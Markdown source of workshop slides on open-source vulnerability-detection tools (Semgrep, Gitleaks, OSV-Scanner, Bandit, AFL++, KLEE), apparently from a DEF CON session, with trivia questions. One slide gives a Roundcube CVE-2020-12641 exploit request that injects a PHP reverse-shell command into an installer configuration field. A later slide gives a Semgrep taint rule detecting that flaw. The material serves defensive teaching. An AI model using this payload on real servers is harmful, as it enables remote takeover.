



<style>

@import url('https://fonts.googleapis.com/css2?family=Lora:ital,wght@0,400..700;1,400..700&display=swap');

:root {
  font-family: "Lora", serif;
}

img[alt~="center"] {
  display: block;
  margin: 0 auto;
}

blockquote {
  font-size: 60%;
  margin-top: auto;
}

h3{
  margin-top: -30px;
  color: gray;
}
</style>

<center>


# The Open Source Fortress

</center>

---

## Goals

* Finding a 0-day in the XZ codebase
* Automating the 0-day exploitation to break in bug bounty targets at scale
* Familiarizing yourself with unstable academic SotA PoCs and paid products

---

## House rules

* You watch. I do.
* All the questions should be put in the end of the workshop.
* The people staying until the end will have discount codes for the paid products.

---


<center><h1>Excited?</h1></center>

---


<center><h1>Buddy, the 0-day sounds cool. But paid products?</h1></center>

---

## Goals v2.0

* Finding vulnerabilities in a Goat-like application
* Experimenting with stable, non-SotA, and effective open source tools
* Understanding their advantages and disadvantages

---

## House rules v2.0

* You do. I watch.
* You can ask your questions at any moment of time.
* Finding vulns and proposing patches will result in prizes!

---

<center><h1>Setup?</h1></center>

---

<center><h1><a href="https://ossfortress.io/showcases/dc"><code>ossfortress.io/showcases/dc</code></a></h1></center>

---


---

## Trivia 101 I

* Prerequisite: You need to love improvisation.
* ~~Because Kahoot has a shitty pricing model,~~ We'll use a classic form.
* You gain points by:
    - Giving correct answers to trivia questions
    - Submitting patch ideas
* We have 3 winners.
* The books are randomly allocated at first, but you can exchange them between you.

---

## @iosifache

* Ex-builder at MutableSecurity
* Ex-security engineer @ Romanian Army and Canonical
* Security engineer in Snap Inc.
* Open source maintainer
* GSoC mentor for OpenPrinting
* Enthusiast of good coffee, long runs/hikes, and quality time

---

## Roundcube Webmail

* Browser-based IMAP client
* ["It provides full functionality you expect from an email client."](https://roundcube.net/about/)

<!--

- Before starting with the practical part, let's look at an example.

-->

---


<!--

- Trying to gauge the adoption of the tool
- Steady increase of stars

-->

---


<!--

- What is Shodan?
- 161k discovered hosts

-->

---

```bash
$ git clone https://github.com/roundcube/roundcubemail
[...]
$ cd roundcubeemail
$ scc . | head -8
───────────────────────────────────────────────────────────────────────────────
Language                 Files     Lines   Blanks  Comments     Code Complexity
───────────────────────────────────────────────────────────────────────────────
PHP                        526    123939    18225     28447    77267      13323
SQL                        110      2642      419       238     1985          0
JavaScript                 100     29353     3617      2800    22936       4827
HTML                        50      2738      304        31     2403          0
Shell                       21      2432      345        50     2037        323
```

---


<!--

- Familiar for owners of home labs
- The web installation page of Roundcube
- Plug the details in the browser, and they will be stored on the server.

-->

---



<!--

- If the instance is exposed on the Internet, then anyone can set the details.

-->

---

# Trivia #1: What mechanism was missed by the Roundcube developers in the installation routine?

1. Sanitizing the configuration
2. Limiting the number of requests to the server
3. Discarding the images in a non-standard format
4. Receiving external emails

---

## Exploitation chain

* The attacker sends a `POST` request to the installer:

  ```
  POST /roundcube/installer/index.php HTTP/1.1
  Host: 192.168.243.153
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 1049

  _step=2&_product_name=Roundcube+Webmail&***TRUNCATED***&submit=UPDATE+CONFIG&
  _im_convert_path=php+-r+'$sock%3dfsockopen("127.0.0.1",4444)%3b
  exec("/bin/bash+-i+<%263+>%263+2>%263")%3b'+%23
  ```

* The attacker sends an email containing an image of non-standard format (e.g., TIFF).
* Roundcube will try to convert the image to JPG.
* The command stored in `_im_convert_path` will be executed.
* The attacker will have a reverse shell.

---

## [CVE-2020-12641](https://nvd.nist.gov/vuln/detail/CVE-2020-12641)

* Many unsanitized configuration items (e.g., `_im_convert_path`)
* Arbitrary code execution
* 9.8 CVSS
* 8.12% EPSS (as per 12 March 2024)
* [Used by APT28 to compromise Ukrainian organisations' servers](https://securityaffairs.com/147681/apt/apt28-hacked-roundcube-ukraine.html)
* Added by CISA in the [Known Exploited Vulnerabilities Catalogue](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)

---

# But ... Was it preventable?

---

# Yes, but ..

---

# Not with stock linters or scanners.

---

```php
private static function getCommand($opt_name)
{
    static $error = [];

    $cmd = rcube::get_instance()->config->get($opt_name);

    if (empty($cmd)) {
        return false;
    }

    if (preg_match('/^(convert|identify)(\.exe)?$/i', $cmd)) {
        return $cmd;
    }

    // Executable must exist, also disallow network shares on Windows
    if ($cmd[0] != "\\" && file_exists($cmd)) {
        return $cmd;
    }

    if (empty($error[$opt_name])) {
        rcube::raise_error("Invalid $opt_name: $cmd", true, false);
        $error[$opt_name] = true;
    }

    return false;
}
```

> From [`program/lib/Roundcube/rcube_image.php`](https://github.com/roundcube/roundcubemail/blob/ecaada40307f79f3e99c2e83a9de176f85525aeb/program/lib/Roundcube/rcube_image.php#L502)

<!--

- The reason: custom function which are not known by default by the standard tools

-->

---

# Trivia #2: What technique could have been feasible for discovering the vulnerability?

1. Fuzzing
2. Taint analysis
3. Linting
4. Dependency scanning

---

```yaml
rules:
  - id: return-unsanitised-config
    languages:
      - php
    message: A value taken from the configuration is returned without sanitisation.
    mode: taint
    pattern-sources:
      - patterns:
        - pattern: rcube::get_instance()->config->get($KEY);
    pattern-sanitizers:
      - pattern: escapeshellcmd(...)
    pattern-sinks:
    - patterns:
      - pattern-regex: "return"
    severity: ERROR
```

> A Semgrep rule using [taint tracking](https://semgrep.dev/docs/writing-rules/data-flow/taint-mode)

<!--

- Approach for output sanitisation (i.e., detecting if the configuration is returned without sanitisation)
- Other approaches: input sanitisation (.e., not storing in the configuration file without a prior sanitisation)

-->

---

<style scoped>
strong {
    color: red;
}

</style>
<pre><code>
private static function getCommand($opt_name)
{
    static $error = [];

    $cmd = rcube::get_instance()->config->get($opt_name);

    if (empty($cmd)) {
        return false;
    }

    if (preg_match('/^(convert|identify)(\.exe)?$/i', $cmd)) {
        <strong>return $cmd;</strong>
    }

    // Executable must exist, also disallow network shares on Windows
    if ($cmd[0] != "\\" && file_exists($cmd)) {
        <strong>return $cmd;</strong>
    }

    [...]
}
</code></pre>

<!--

- Seeing later how can we run Semgrep
- Errors generated for the lines in red

-->

---

## The Open Source Fortress

* Collection of OSS tools that can be used to proactively detect vulnerabilities
* [`ossfortress.io/guide`](http://ossfortress.io/guide) as the guide that we'll follow

---


---

## But why open source?

* Second layer of security when used with paid products
* Replacement for paid products
* Lower engineering effort compared with in-house solutions
* Default collaboration

<!--

Let's tackle the elephant in the room.

-->

---


---

## Further defensive activities

* Vulnerability research
    * CVSS approximation: [`AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H`](https://nvd.nist.gov/vuln/detail/CVE-2021-44228#cvssVulnDetailBtn)
    * CWE approximation: [`CWE-502`](https://cwe.mitre.org/data/definitions/502.html)
    * CVE ID request: [`CVE-2021-44228`](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
* Patching: [The patches from Oracle](https://www.oracle.com/security-alerts/cpuapr2022.html)
* Communication with the stakeholders: [The Apache remediation guide](https://logging.apache.org/log4j/2.x/security.html)

> The examples are from the Log4Shell vulnerability in Log4j.

<!--

- Log4j
- CVSS of 10 (critical)
- CWE-502: Deserialisation of Untrusted Data
- Links in the presentation, which will be accessible after the conference

-->

---

## Further offensive activities

* Exploit writing
    * Attack vector: through VMware Horizon
    * Mitigation bypass: [`T1036.004`](https://attack.mitre.org/versions/v11/techniques/T1036/004/)
    * Weaponisation: [`T1573.001`](https://attack.mitre.org/versions/v11/techniques/T1573/001/)
* Exploitation

> As reported by CISA in [AA22-174A](https://www.cisa.gov/news-events/cybersecurity-advisories/aa22-174a)

<!--

- Identifiers from MITRE ATT&CK matrix
- Symmetrically-encrypted channel communication
- Mimicking a legit service

-->

---

## Sand Castle

* Vulnerable-by-design codebase
* "*lightweight piece of software that runs on a Debian-based server and allows users to control it through their browsers*"
* On-premise deployment
* Written in Python and C
* 12+ embedded vulnerabilities

---


---

## Analysis infrastructure

* Docker Compose infrastructure
* Services
  - Sand Castle
  - OWASP Threat Dragon
  - Coder
  - All static analysers
  - AFL++
  - KLEE

---


<center><h1>Threat modelling</h1></center>

---

# Trivia #3: What steps are part of a threat modelling process?

1. Asset identification
2. Creation of remediation plans in case of a cyberattack
3. Cyber insurance procurement
4. Threat identification

---

# Trivia #4: Which country was the first to make threat modelling mandatory in certain conditions?

1. Singapore
2. Germany
3. USA
4. Switzerland

---

## OWASP Threat Dragon

* Threat modelling tool backed by OWASP
* Usual process
  1) Threat model creation
  2) Diagram creation: STRIDE, CIA
  3) Asset representation: stores, process, actor, data flow, trust boundaries
  4) Manual threat identification, with type, status, score, priority, description, and mitigation

---

# Practice 🔩

---



<center><h1>Code querying</h1></center>

---

# Trivia #5: What is the purpose of a tool for code querying?

1. Writing code implementing query languages such as SQL
2. Storing code snippets in databases for debugging purposes
3. Finding lines of code that match a specific criteria
4. Offering search engines the ability to search websites for code storage (e.g., GitHub, GitLab)

---

# Trivia #6: What code querying tools are used nowadays for matching specific lines of code?

1. Literals
2. Regex
3. Partial ASTs
4. Tool-specific query languages

<!--

`scanf`, `scanf\(.*\)`, method call as revealed by the AST (as Joern does)

-->

---

## Semgrep

* (Partially) open-source code scanner
* Support for 30+ programming languages
* No prior build requirements
* No DSL for rules
* Default or third-party rules

---

# Practice 🔩

---


<center><h1>Secret scanning</h1></center>

---

# Trivia #7: What can be considered a secret?

1. (Certain kinds of) API keys
2. Credentials
3. GitHub personal tokens
4. Application build number

---

# Trivia #8: How can artefacts that may be a secret be searched in a codebase?

1. Short, high-entropy data
2. Specific formats such as `ghp_(\w){40}`
3. Prerequisites for running the application, usually mentioned in the docs
4. Git history

---

## Gitleaks

* Detector for hard-coded secrets 
* Analysis of the entire Git history
* Support for baselines and custom formats of secrets

---

# Practice 🔩

---



<center><h1>Dependency scanning</h1></center>

---

# Trivia #9: Should all the vulnerable dependencies be updated immediately?

1. No, because some of them are not reachable or exploitable
2. No, because development velocity is more important than absolute security
3. Yes, because they are vulnerabilities in the code we are embedding in our codebase
4. Yes, because it's unacceptable to have warnings from GitHub's Dependabot

---

# Trivia #10: What files can be searched to identify the dependencies of a program?

1. `package.json`
2. The source files and their includes
3. `poetry.lock`
4. `/etc/apache2/httpd.conf`

---

## Dependency scanning

* Iterating through all dependencies for finding their vulnerabilities
* Usage of the dependencies' declaration list

---

## OSV-Scanner

* Client for [Google's OSV database](https://osv.dev), which embeds:
  - [GitHub Security Advisories](https://github.com/advisories)
  - [PyPA](https://github.com/pypa/advisory-database)
  - [RustSec](https://rustsec.org/advisories/)
  - [Global Security Database](https://github.com/cloudsecurityalliance/gsd-database)
* Support for ignored vulnerabilities

---

# Practice 🔩

---
 


<center><h1>Linting</h1></center>

---

# Trivia #11: What can a linter check?

1. Formatting
2. Developers' productivity
3. Grammar (for example, non-inclusive expressions)
4. Security

---

# Trivia #12: What are valid approaches for automating the run of a linter?

1. On quality gates inside the CI/CD
2. Locally, in the development environment
3. On Git's pre-commit hooks
4. On each change of a file in an IDE

---

## Bandit

* Linter for Python
* Abstract syntax tree representation of the code
* Custom modules for:
  - Patterns of suspicious code
  - Deny lists of imports and function calls
  - Report generation
* Support for baselines

---

# Practice 🔩

---


<center><h1>Fuzzing</h1></center>

---

# Trivia #13: What does a fuzzer do?

1. Trying to deduce what code is unused
2. Running the program with random input and watching for crashes
3. Running the unit tests in a random order and watching for crashes
4. Placing random data in the registers during execution and watching for crashes

---

# Trivia #14: What metrics are used to judge how good a fuzzer is?

1. Speed (executions/second)
2. Filesystem interactions (interactions/second)
3. Efficiency (coverage/second)
4. Effectiveness (crash/second)

---


> From [AdaCore's "Finding Vulnerabilities using Advanced Fuzz testing and AFLplusplus v3.0"](https://blog.adacore.com/advanced-fuzz-testing-with-aflplusplus-3-00)

---

## AFL++

* An [American Fuzzy Lop (AFL)](https://github.com/google/AFL) fork
* Additional features compared to AFL
  - QEMU emulation
  - Persistent mode
  - Optimisations
* Embedded in [Google's OSS-Fuzz](https://google.github.io/oss-fuzz/)

---

# Practice 🔩

---


<center><h1>Symbolic execution</h1></center>

---

# Trivia #15: What does symbolic execution do?

1. Executing the application inside an emulator with an obscure architecture
2. Investigating all paths in the control flow graph (CFG) by replacing the concrete values with symbolic ones
3. Optimising binaries to run faster in production environments
4. Running the program multiple times with random inputs

---

# Trivia #16: What are the main components of a symbolic execution engine?

1. Sources
2. Sinks
3. Patterns
4. Secrets

---

<style>
    div.twocols {
        margin-top: 35px;
        column-count: 2;
    }

    div.twocols p:first-child,
    div.twocols h1:first-child,
    div.twocols h2:first-child,
    div.twocols ul:first-child,
    div.twocols ul li:first-child,
    div.twocols ul li p:first-child {
        margin-top: 0 !important;
    }

    div.twocols p.break {
        break-before: column;
        margin-top: 0;
    }
</style>

<div class="twocols">

```c
int f(int a, int b){
    int x = 1, y = 0;

    if (a != 0) {
        y = x + 3;
        if b == 0 {
            x = 2 * (a + b);
        }
    }

    return (a + b) / (x - y);
}
```

<p class="break"></p>


</div>

> From [symflower's "What is symbolic execution for software programs"](https://symflower.com/en/company/blog/2021/symbolic-execution/)

<!--

- Considering the program on left
- The right part is what a symbolic execution engine will see.

-->

---

## KLEE

* Generic symbolic execution with security use cases
* Built on [LLVM](https://llvm.org/)

> Thanks, [Cristian Cadar](https://www.doc.ic.ac.uk/~cristic/)!

---


<!--

- Every engineering likes some automations.

-->

---

# Practice 🔩

---

## Security tooling automation

* [SARIF Multitool](https://github.com/microsoft/sarif-sdk/blob/main/docs/multitool-usage.md) for performing operations with SARIF files (merging, paging, querying, suppressing, etc.)
* [Make](https://www.gnu.org/software/make/) and [Poe the Poet](https://github.com/nat-n/poethepoet) for running tasks
* IDE workflows (e.g., [VSCode tasks](https://code.visualstudio.com/Docs/editor/tasks)) for running the tooling while doing dev work
* [`pre-commit`](https://github.com/pre-commit/pre-commit) for managing Git pre-commit hooks
* [`act`](https://github.com/nektos/act) or [GitLab Runner](https://docs.gitlab.com/runner/install/) for running CI/CD workflows locally
* [GitHub Actions](https://docs.github.com/en/actions) or [GitLab pipelines](https://docs.gitlab.com/ee/ci/) for running CI/CD workflows

---

<center><h1>~8 billion people on Earth</h1></center>

---

<center><h1>~30k people at DEF CON</h1></center>

---

<center><h1>~30 people on this workshop</h1></center>

---

<center><h1>We probably have some things in common 😏, so let's not become strangers!</h1></center>

---

<center><h1>Connect form</h1></center>

---

<center><h1>Feedback form</h1></center>

<!--

- Open source workshop, about open source tools, so no corporate incentives involved
- Spare time contributions
- For personal development
- Just 2 minutes to fill the form

-->

---

# Trivia #17: What is Ubuntu?

1. Southern African Christian perception of an African philosophy
2. Operating system
3. Bantu word
4. Philosophical concept

---


---

<blockquote>
  <p style="font-size: 32pt">
    "<b><i>Ubuntu does not mean that people should not address themselves, the question, therefore, is, are you going to do so in order to enable the community around you to be able to improve.</i></b>" - <a href="https://www.youtube.com/watch?v=HED4h00xPPA">Nelson Mandela</a>
  </p>
</blockquote>

<!--

I'm not promoting Ubuntu here. You may say that some of their decisions are questionable, but this is a discussion for another time. I think that Mark did an awesome job choosing the name of the operating system because the Ubuntu philosophy is also intrinsically embedded in open source.

-->

---


---

## Do security-focused work!

* Create a threat model.
* Do a security review and report your findings.
* Implement new security mitigations.
* Propose or backport patches.
* Create new workflows for security scanning.
* Integrate the project in OSS-Fuzz.

---


---

## Support!

* Give it a GitHub star.
* Share it with your friends or followers.
* Write a short feedback email to the maintainers.

---


<!--

- As mentioned at the beginning, these are not SotAs, so there is a lot of space for improvement.
- In this way, I can bet that the whole community will be grateful for your work.

-->

---

<center><h1><a href="https://ossfortress.io"><code>ossfortress.io</code></a></h1></center>

<!--

- If there is a single thing that I want you to remember is this website.
- One can find there the presentation, exercises, a cheatsheet and more.

-->
